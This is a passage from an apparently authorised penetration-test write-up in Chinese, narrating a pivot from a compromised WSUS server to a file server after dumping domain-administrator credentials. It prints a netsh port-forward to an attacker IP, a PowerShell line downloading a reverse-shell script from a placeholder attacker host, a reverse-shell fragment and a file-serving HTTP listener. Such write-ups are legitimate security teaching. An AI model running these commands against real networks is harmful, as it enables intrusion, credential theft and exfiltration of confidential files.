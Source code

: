 ```
kerberos :
* Username : administrator
* Domain : SUPERCOMPANY.LOCAL
* Password : (null)
ssp :    KO
credman :
```

Wow！域管理员在服务器登录过，我们拿到了域管理员的哈希，收获不小。

游戏结束了吗？并没有！客户是叫我们去窃取机密信息，可我们还没拿到任何机密文件。可是我们现在知道应该在哪搜索了，文件服务器SRVFILE1

<br>

**定位文件服务器(SRVFILE1)**

还有什么比文件服务器更适合搜索文件的地方吗？有了域管理员的密码哈希，我们已经成功了一半了。有了之前的一体化SMBExec，我们只需要把本地管理员哈希替换为域管理员哈希。

从SRVWSUS的反向shell开始，我们试着用之前相同的步骤攻击服务器，但这次失败了。经过若干次尝试之后，我们得出结论，那台服务器被配置为禁止访问互联网。

新服务器需要新的计划了，最新的计划是用我们已有的SRVWSUS shell转到SRVFILE1上

步骤如下：

使用netsh将发送到SRVWSUS 8888端口的所有流量都转到攻击者443端口



```
＃SRVFILE1 &lt; - &gt; SRVWSUS：8888 &lt; - &gt; ATTACKER：443
netsh interface portproxy add v4tov4 listenport = 8888 listenaddress = 0.0.0.0 connectport = 443 connectaddress = &lt;OUR_PUBLIC_IP&gt;
```

在SRVWSUS上传第二个反向shell脚本r2.ps1，在我们的web服务器上：

```
(New-Object Net.WebClient).DownloadFile(‘http://&lt;OUR_PUBLIC_IP&gt;/r2.ps1’, ‘c:tmpr2.ps1’)
```

r2.ps1与之前的脚本不同，因为它是连接到SRVWSUS而不是我们的公共IP



```
…
$client = New-Object System.Net.Sockets.TCPClient(‘’,8888)
…
```

* 在SRVWSUS上下载一个简单的PowerShell HTTPServer：



```
# http.ps1
start-job `{` # will execute in background
$p=”c:tmp”
$H=New-Object Net.HttpListener
$H.Prefixes.Add(“http://+:8001/”)
$H.Start()
While ($H.IsListening) `{`
$HC=$H.GetContext()
$HR=$HC.Response
$HR.Headers.Add(“Content-Type”,”text/plain”)
     $file=Join-Path $p ($HC.Request).RawUrl
$text=[IO.File]::ReadAllText($file)
    $text=[Text.Encoding]::UTF8.GetBytes($text)
$HR.ContentLength64 = $text.Length
$HR.OutputStream.Write($text,0,$text.Length)
$HR.Close()
`}`
$H.Stop()
`}`
```